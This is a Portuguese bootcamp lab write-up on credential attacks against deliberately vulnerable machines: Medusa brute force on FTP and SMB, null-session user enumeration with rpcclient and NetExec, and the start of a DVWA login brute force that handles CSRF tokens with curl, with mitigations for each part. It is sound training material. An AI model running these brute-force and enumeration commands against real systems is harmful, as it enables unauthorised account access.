# credential-attacks-lab

## Sumário

- [FTP — Enumeração e Brute Force](#ftp--enumeração-e-brute-force)
- [SMB — Enumeração e Brute Force](#smb--enumeração-e-brute-force)
- [Brute Force em Formulário Web (DVWA)](#brute-force-em-formulário-web-dvwa)

## Objetivo

Este projeto é a entrega do desafio do Bootcamp de Cybersegurança 2026 da DIO: simular ataques de força bruta contra serviços de rede e aplicações web para praticar técnicas de reconhecimento, exploração e documentação de vulnerabilidades.

## Ambiente

Todos os testes foram executados em laboratório isolado, com máquinas virtuais sem acesso a sistemas externos. Os alvos são sistemas próprios, criados apenas para estudo.

- **Parrot OS (máquina atacante)** — sistema usado para o reconhecimento e os ataques.
- **Metasploitable 2 (`192.168.100.132`)** — máquina propositalmente vulnerável, alvo dos ataques contra FTP e SMB. Imagem obtida em [sourceforge.net/projects/metasploitable](https://sourceforge.net/projects/metasploitable/).
- **DVWA (`http://localhost`)** — aplicação web propositalmente vulnerável, alvo do brute force em formulário, executada localmente na máquina atacante via Docker (imagem `vulnerables/web-dvwa`, versão v1.10 *Development*).

## FTP — Enumeração e Brute Force

### 1. Reconhecimento (nmap)

```bash
nmap -sC -sV -p- --reason -o nmap.log 192.168.100.132
```

**Parâmetros utilizados:**

- `-sC` — executa os scripts padrão do Nmap (NSE), realizando verificações adicionais para coletar informações sobre os serviços e suas configurações.
- `-sV` —  tenta identificar os serviços e suas versões, permitindo descobrir qual software está executando em cada porta.
- `-p-` — varre todas as 65.535 portas TCP.
- `--reason` — exibe o motivo técnico pelo qual o Nmap classificou cada porta como aberta/fechada/filtrada.
- `-o nmap.log` — salva o resultado da varredura no arquivo nmap.log.

A varredura identificou diversas portas abertas e serviços em execução no alvo. Entre os resultados, foram encontrados dois serviços FTP: o vsftpd 2.3.4, na porta 21, com login anônimo habilitado (falha não explorada nesta seção), e o ProFTPD 1.3.1, na porta 2121.



Para este exercício, o foco será o serviço FTP na porta **2121**, utilizando o Medusa para testar combinações de usuários e senhas presentes nas wordlists.




### 2. Criação das wordlists

Wordlists pequenas e propositais, simulando um cenário de credenciais fracas/padrão:

```bash
mkdir wordlists
echo -e "admin\nmsfadmin\nroot\nuser\nftp\nservice" > wordlists/users.txt    
echo -e "root\npassword\n123456\nmsfadmin\nadmin\nftp" > wordlists/pass.txt
```




### 3. Ataque de força bruta com Medusa

```bash
medusa -U wordlists/users.txt -P wordlists/pass.txt -n 2121 -M ftp -f -h 192.168.100.132
```

**Parâmetros utilizados:**

- `-U` — arquivo de wordlist de usuários.
- `-P` — arquivo de wordlist de senhas.
- `-n` — porta do serviço alvo (2121, já que o ProFTPD não roda na porta padrão).
- `-M` — módulo do Medusa a ser utilizado (`ftp`).
- `-f` — interrompe a execução assim que encontrar a primeira credencial válida.
- `-h` — endereço do host alvo.

Executando o comando, o Medusa encontrou as credenciais `msfadmin:msfadmin`.



Com as credenciais encontradas, conseguimos acessar o serviço FTP e listar o conteúdo disponível para o usuário.




### Impacto

Neste laboratório, o acesso foi obtido com uma wordlist pequena e uma credencial amplamente conhecida (`msfadmin:msfadmin`), em uma máquina propositalmente vulnerável para fins didáticos. Embora o cenário seja simplificado, as falhas exploradas são relevantes em ambientes reais:

- **Credenciais padrão não alteradas** após a instalação de um serviço, um risco presente em dispositivos IoT, appliances e ambientes de desenvolvimento expostos indevidamente.
- **Credenciais vazadas ou reutilizadas** — listas públicas de senhas, como o [SambaTu](https://github.com/HideMeBr/SambaTu) (uma versão brasileira da famosa RockYou) podem ser utilizadas em ataques automatizados de força bruta e *credential stuffing*.
- **Serviços legados expostos desnecessariamente** — manter um serviço FTP acessível sem necessidade aumenta a superfície de ataque. Além disso, o FTP tradicional transmite credenciais e dados sem criptografia.

A combinação de credenciais fracas, exposição desnecessária e controles insuficientes de autenticação pode facilitar acessos não autorizados. O impacto depende das permissões da conta comprometida e dos recursos acessíveis pelo serviço. Neste exercício, foi possível autenticar no FTP e listar o conteúdo disponível para o usuário.

Especificamente neste ambiente, desabilitar o acesso anônimo no vsftpd (porta 21) e aplicar as recomendações de autenticação forte ao ProFTPD (porta 2121) mitigaria os riscos identificados neste laboratório.

### Mitigações

- **Eliminar credenciais padrão**: substituir as credenciais padrão por senhas fortes antes de colocar o serviço em produção.
- **Autenticação forte**: utilizar senhas fortes e únicas e habilitar MFA sempre que possível. Caso o serviço não ofereça mecanismos de autenticação seguros, considerar sua substituição por uma alternativa mais segura.
- **Rate limiting / bloqueio de conta**: implementar controles contra tentativas repetidas de autenticação.
- **Reduzir superfície de exposição**: serviços sem necessidade de acesso público devem ficar atrás de VPN ou restritos por firewall a IPs confiáveis.
- **Monitoramento e alertas**: logs de autenticação devem ser centralizados e monitorados para detectar padrões de tentativa de força bruta em tempo real.


## SMB — Enumeração e Brute Force

### 1. Reconhecimento (nmap)
 
Voltando ao nosso log do nmap, podemos identificar o serviço SMB habilitado nas portas 139 e 445.



A porta 445 é a relevante para este exercício, pois é utilizada pelo SMB diretamente sobre TCP, sem depender do NetBIOS, ao contrário da porta 139, tradicionalmente associada ao SMB sobre NetBIOS. A versão identificada, Samba 3.0.20-Debian, é bastante antiga e servirá de base para os testes a seguir.

### 2. Reconhecimento inicial (NetExec)

Para analisar o serviço SMB, comecei utilizando o **NetExec** (`nxc`), uma ferramenta de avaliação de segurança voltada para enumeração e exploração de ambientes Windows/Samba via rede.

```bash
nxc smb 192.168.100.132
```



O campo **`(Null Auth:True)`** chamou atenção: indica que o serviço aceita **sessão nula**, permitindo estabelecer conexão ao SMB sem usuário ou senha. Essa configuração pode permitir a enumeração de informações sem autenticação, dependendo das permissões e da configuração do serviço.


### 3. Enumeração de usuários

Para identificar usuários existentes no sistema, utilizei o `rpcclient`, que permite interagir com a interface RPC do Samba por meio de uma sessão nula:

```bash
rpcclient -U "" -N 192.168.100.132
```

- `-U ""` — usuário vazio.
- `-N` — não solicita senha (sessão nula).

Dentro do shell interativo, executei `enumdomusers`, que solicita a lista de usuários por meio da interface SAMR (Security Account Manager Remote Protocol).




O comando retornou diversas contas do sistema, demonstrando que foi possível enumerar usuários por meio de uma sessão nula, sem fornecer credenciais.

A maioria das contas listadas está associada a serviços ou funções do sistema (`bin`, `daemon`, `sys`, `mail`, etc.). O que chama a atenção aqui são os **RIDs** (Relative Identifiers), identificadores relativos associados às contas:

```text
user:[msfadmin] rid:[0xbb8]
user:[user] rid:[0xbba]
user:[service] rid:[0xbbc]
```

Os RIDs `0xbb8`, `0xbba` e `0xbbc` correspondem, respectivamente, a 3000, 3002 e 3004 em decimal. Na listagem obtida, os RIDs das contas de sistema variam entre `0x3e8` e `0x4ca` (1000–1226), enquanto os três usuários destacados possuem identificadores a partir de 3000. Além dessa diferença, os valores formam uma sequência com intervalo de dois, sugerindo que essas contas pertencem a um mesmo conjunto de usuários do ambiente.

Com base nessa análise, reduzi a wordlist de usuários para essas três contas:

```bash
echo -e "msfadmin\nuser\nservice" > wordlists/smb_users.txt
```

### 4. Ataque de força bruta com Medusa

Com a wordlist de usuários reduzida, o próximo passo foi reutilizar o mesmo comando do Medusa aplicado ao FTP, alterando apenas o módulo (`-M`) para `smbnt` e apontando para a wordlist de usuários específica do SMB. As senhas testadas são as mesmas já utilizadas na seção anterior. A intenção aqui é justamente verificar se há **reuso de credenciais entre serviços diferentes**, um cenário comum quando uma mesma combinação de usuário e senha é utilizada em múltiplos protocolos.



A credencial `msfadmin:msfadmin`, já comprometida no serviço FTP, também é válida no SMB, confirmando o reuso de senha entre os dois serviços e ampliando o impacto de uma única credencial vazada.

### 5. Validação do acesso e enumeração de compartilhamentos

Embora o Medusa tenha validado a credencial `msfadmin:msfadmin` e apresentado a mensagem `SUCCESS (ADMIN$ - Access Allowed)`, decidi verificar quais permissões a conta realmente possui nos compartilhamentos SMB.

Primeiro, tentei listar o conteúdo de `ADMIN$` utilizando o `smbclient`:

```bash
smbclient //192.168.100.132/ADMIN$ -U msfadmin
```



Após autenticar, as tentativas de listar o conteúdo retornaram `NT_STATUS_NETWORK_ACCESS_DENIED`, indicando que a conta não tinha permissão para realizar essa operação nesse compartilhamento, embora a autenticação tenha sido bem-sucedida.

Para confirmar isso, utilizei o `nxc` autenticado para listar as permissões reais de cada share:

```bash
nxc smb 192.168.100.132 -u 'msfadmin' -p 'msfadmin' --shares
```

- `-u` — usuário utilizado na autenticação.
- `-p` — senha correspondente ao usuário informado.
- `--shares` — lista os compartilhamentos disponíveis no alvo, junto com as permissões do usuário autenticado em cada um.



O resultado confirmou a autenticação e apresentou permissões de leitura e escrita nos compartilhamentos `print$`, `tmp`, `opt` e `msfadmin`. Já para `ADMIN$` e `IPC$`, não foram indicadas permissões de leitura ou escrita na listagem.

Portanto, embora a credencial seja válida no SMB, o acesso efetivo depende das permissões atribuídas a cada compartilhamento. A autenticação bem-sucedida, por si só, não comprova a existência de privilégios administrativos gerais.

### Impacto

A combinação de sessão nula habilitada e reuso de credenciais permitiu, neste laboratório, mapear contas reais do sistema e validar acesso com uma única senha previamente comprometida em outro serviço. Dois fatores tornaram isso possível:

- **Enumeração sem autenticação**: a sessão nula do Samba 3.0.20-Debian permitiu listar contas do sistema por meio da interface SAMR, sem fornecer credencial. Isso reduz a necessidade de adivinhar nomes de usuários válidos reduzindo drasticamente o espaço de busca de um ataque de força bruta.
- **Reuso de credenciais entre serviços**: a mesma senha comprometida no FTP (`msfadmin:msfadmin`) também era válida no SMB, evidenciando que uma única credencial vazada pode comprometer múltiplos serviços. Esse risco é ampliado em ambientes onde as mesmas credenciais são reutilizadas entre protocolos.

Por outro lado, o teste também mostrou uma limitação relevante: autenticação válida não implica acesso irrestrito. A conta `msfadmin` autenticou com sucesso no share `ADMIN$`, mas não possuía permissão de leitura sobre seu conteúdo, reforçando que autenticação e autorização são camadas distintas de controle, e que o impacto real de uma credencial comprometida depende das permissões concedidas em cada recurso.

### Mitigações

- **Restringir sessões nulas**: desabilitar o acesso anônimo ao SMB e impedir a enumeração de usuários e outros recursos sem autenticação, sempre que possível.
- **Eliminar a reutilização de credenciais**: utilizar senhas fortes e únicas para cada serviço, evitando que uma credencial comprometida no FTP permita acesso ao SMB ou a outros serviços.
- **Aplicar o princípio do menor privilégio**: revisar as permissões dos compartilhamentos SMB e conceder apenas o acesso necessário a cada usuário. Permissões de escrita devem ser limitadas aos casos em que forem realmente necessárias.
- **Desabilitar protocolos legados**: desativar o SMBv1 quando não houver necessidade de compatibilidade, priorizando versões mais recentes e seguras do protocolo.
- **Restringir a exposição do serviço**: limitar o acesso às portas 139 e 445 por meio de regras de firewall, permitindo conexões apenas de hosts e redes confiáveis.
- **Monitoramento e alertas**: registrar e monitorar tentativas de autenticação, enumeração de usuários e acessos aos compartilhamentos, buscando identificar padrões suspeitos e tentativas de força bruta.


## Brute Force em Formulário Web (DVWA)

### 1. Introdução

Diferente do FTP e SMB, onde a autenticação segue um protocolo padronizado, um formulário de login web não tem estrutura fixa, cada aplicação define seus próprios nomes de campo, método de envio e mecanismos de proteção. Antes de qualquer tentativa de automação, é necessário mapear exatamente como o formulário funciona.



### 2. Reconhecimento do formulário

Para identificar a estrutura do formulário utilizei o `curl` para buscar o HTML da página diretamente via terminal:

```bash
curl -s -L http://localhost | grep form
```

- `-s` — modo silencioso, omite a barra de progresso do curl na saída.
- `-L` — segue redirecionamentos, caso o servidor redirecione a requisição (comum em páginas de login que redirecionam para si mesmas).



Esse primeiro comando revelou o endpoint e o método de envio do formulário (`<form action="login.php" method="post">`), mas ainda sem os nomes dos campos necessários para montar a requisição. Para extrair essas informações, usei o comando:

```bash
curl -s -L http://localhost | grep -iE "user|pass|login|input"
```

- `-i` — torna o `grep` case-insensitive, já que HTML pode variar maiúsculas/minúsculas em atributos.
- `-E` — ativa expressões regulares estendidas, permitindo usar `|` como alternância sem escapar.
- `"user|pass|login|input"` — regex combinando quatro palavras-chave relacionadas a autenticação (`|` funciona como "ou" no grep), para filtrar as linhas relevantes do HTML sem precisar ler a página inteira.



Essa busca revelou a estrutura completa do formulário:

```html
<form action="login.php" method="post">
    <input type="text" name="username">
    <input type="password" name="password">
    <input type="submit" value="Login" name="Login">
    <input type='hidden' name='user_token' value='0cb9b8b26848701f35733fdc8d291399' />
```

Há também um campo `user_token`, um campo **hidden** que carrega um valor dinâmico, característico de um mecanismo de proteção contra **CSRF (Cross-Site Request Forgery)**. Isso significa que, diferente de um login simples, cada tentativa de autenticação precisa primeiro obter esse token (associado à sessão atual) antes de enviar as credenciais, caso contrário o servidor rejeita a requisição mesmo com usuário e senha corretos.

Com o formulário mapeado, o próximo passo é o brute force e antes de cada tentativa de login, será necessário obter um `user_token` válido para a sessão atual e enviá-lo junto com as credenciais, caso contrário a requisição é rejeitada independentemente da senha testada.

Para confirmar que o token é de fato validado pelo servidor, testei o envio de uma credencial válida acompanhada de um token inválido:

```bash
curl -s -i -b cookies.txt -c cookies.txt \
  -X POST http://localhost/login.php \
  --data-urlencode "username=admin" \
  --data-urlencode "password=password" \
  --data-urlencode "Login=Login" \
  --data-urlencode "user_token=teste_token_invalido"
```



A resposta retornou `302 Found` com `Location: login.php`, ou seja, a tentativa foi rejeitada mesmo com a credencial correta.

Repetindo o teste com um `user_token` válido, extraído diretamente de uma nova requisição à página de login:

```bash
TOKEN=$(curl -s -b cookies.txt -c cookies.txt http://localhost/login.php | grep -oP "name='user_token' value='\K[^']+")

curl -s -i -b cookies.txt -X POST http://localhost/login.php \
  --data-urlencode "username=admin" \
  --data-urlencode "password=password" \
  --data-urlencode "Login=Login" \
  --data-urlencode "user_token=$TOKEN"
```

